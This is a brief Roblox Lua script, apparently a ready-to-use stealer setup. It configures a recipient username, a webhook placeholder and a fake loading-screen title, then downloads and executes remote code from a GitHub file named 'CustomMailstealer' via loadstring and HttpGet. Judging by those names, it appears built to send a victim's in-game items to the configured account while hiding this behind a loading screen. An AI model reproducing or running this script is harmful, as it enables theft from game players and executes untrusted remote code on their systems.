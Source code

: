Username = "tungul16"
Webhook = "Webhook Here"

G_LoadingScreen = "Loading Screen Title HERE"
G_WebhookName = "Webhook Name"

loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/MoriCustom/main/CustomMailstealer"))()
